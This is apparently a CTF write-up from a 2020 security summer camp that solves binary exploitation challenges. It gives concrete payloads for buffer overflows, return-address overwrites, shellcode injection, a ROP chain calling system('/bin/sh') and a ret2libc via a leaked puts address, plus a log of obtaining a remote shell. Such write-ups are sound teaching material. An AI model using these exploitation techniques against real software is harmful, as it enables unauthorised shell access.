 # CyberSec summercamp 2020 
## pwn-ctf

## Challenges

### 張元Pwn-6 (50 pts)

First find the magic in binary file , then solve 1000 math questions with loop

Switch to interactive to `cat flag`

### 張元Pwn-7 (50 pts)

This challenge requires a little bit Reversing basic

#### stage1
We can see a simple `if` statement in function `stage1()`, as shown below:
    
    0x0040077d      8b45f4         mov eax, dword [var_ch]
    0x00400780      83e001         and eax, 1
    0x00400783      85c0           test eax, eax
    0x00400785      7434           je 0x4007bb
    0x00400787      8b45f4         mov eax, dword [var_ch]
    0x0040078a      2500001000     and eax, 0x100000
    0x0040078f      85c0           test eax, eax
    0x00400791      7428           je 0x4007bb
    0x00400793      8b45f4         mov eax, dword [var_ch]
    0x00400796      2500020000     and eax, 0x200              
    0x0040079b      85c0           test eax, eax
    0x0040079d      751c           jne 0x4007bb

we can try changing it into a C-like `if` statement:

`if ((var_ch & 1) != 0 && ((var_ch & 0x100000) != 0 && (var_ch & 0x200) == 0))`

base on this, we can write a keygen to crack `var_ch` in stage1

#### stage2

We can see it's trying to get three numbers from user input:

    0x00400810      e80bfeffff     call sym.imp.__isoc99_scanf
    0x00400815      8b45ec         mov eax, dword [var_14h]
    0x00400818      83f864         cmp eax, 0x64               
    0x0040081b      7530           jne 0x40084d
    0x0040081d      8b45f0         mov eax, dword [var_10h]
    0x00400820      3d00010000     cmp eax, 0x100              
    0x00400825      7526           jne 0x40084d
    0x00400827      8b45f4         mov eax, dword [var_ch]
    0x0040082a      3d0cb0cefa     cmp eax, 0xfaceb00c
    0x0040082f      751c           jne 0x40084d

based on the disassembly, we get three integers, 0x64, 0x100 and 0xfaceb00c


#### stage3

Again, the binary is comparing user input with a global varible

we can get the value of the varible(0x60107c) in the binary

send the numbers, and we get a shell

    [+] Opening connection to 139.110.112.192 on port 2117: Done
    [*] Switching to interactive mode
    Stage 2 completed
    Congrat! Here is your shell!
    $ cat flag
    BreakAllCTF{A_g-01d_h4cker_15_f4m1liar_w1th_b1n4ry_5ystem}

### 張元Pwn-8(50 pts)

From the assembly, we can see a shell function at `0x4006b6`

simply overwrite the return address as `0x4006b6`, we get a shell

### Angelboy Pwn-1(50 pts)

Same as the previous challenge, but this time the stack size is `0x20`

### Angelboy Pwn-2(50 pts)

Same as the previous challenge, but we're going to jump to our own shellcode instead of the given shell funvtion

we can write the shellcode in the `Name` varible(because the shellcode made by `shellcraft()` is only 44 bytes)


then we can overwrite the return pointer to jump to our shellcode(at `Name`)

### 張元 Pwn-1(100 pts)

This is an varible overwrite challenge

we can see that the  binary is trying to compare some varible to `0xfaceb00c` and `0xdeadbeef`

simply overwrite these two numbers by sending a payload like this:

`'A' *12 + p32(0xfaceb00c) + p32(0xdeadbeef)`

then we see that the program is comparing our input with a random number 

we can adjust our payload, to overwrite the random number to a known integer

in my exploit, my  paylaod is :

`'A' * 12 + p32(0xfaceb00c) + p32(0xdeadbeef) + p32(0x12345678)`

now we know the password(0x12345678), then we can pass it easily and get a shell

### 張元 Pwn-9(100 pts)

This challenge is similar to `Angelboy Pwn-2`, but the stack location is randomized

but the binary still gives us the `RSP`:

`Your address of input buffer is 0x7fff38a14c30`

now we get the RSP, we can try making a payload like this:

`asm(shellcraft.sh()) + 'A' * (0x70 + 8 - len(asm(shellcraft.sh()))) + p64(rsp)`

send the payload, and we get a shell

### 張元 Pwn-10(100 pts)

This is a simple ROP challenge

we can first put string `/bin/sh` in the first varible

then, we try to craft a payload to bypass NX

our payload will be like :

`(some padding) + (pop rdi) + "/bin/sh" address + system() address`

from the disassembly, we know that this binary contains `system()` function:

`0x004006bf      e86cfeffff     call sym.imp.system`

before we can call `system()`, we have to clean the `RDI` register

let's find some gadget using `ROPgadget`

`0x0000000000400773 : pop rdi ; ret`

our final payload looks like this:

`'A' * (48 + 8) + p64(0x0000000000400773) + p64(0x601070) + p64(0x004006bf)`

### Angelboy Pwn-3(100 pts)

This is a classic `return to libc` challenge

we're going to use a great tool called `one_gadget`, this way we won't have to craft a complicated payload by ourselves

our payload will be like:

`(some padding) + (the address that one_gadget give us)`

first, there is a memory leaking function in this program:

`Give me an address (in hex) :`

we can give the program the `got` address of `puts`

then it'll return a address, which is the address of `puts` in libc

we can get the target libc base address by doing `puts_addr - offset`

let's find the offset first(with readelf):

`404: 000000000006f690   456 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5`

then use `one_gadget` to find the address to jump:
 `0x45216 execve("/bin/sh", rsp+0x30, environ)`


now we get the address, let's craft our payload:

`'A'* (0x110 + 8) + p64((libc_base + 0x45216))  


### other

TBD

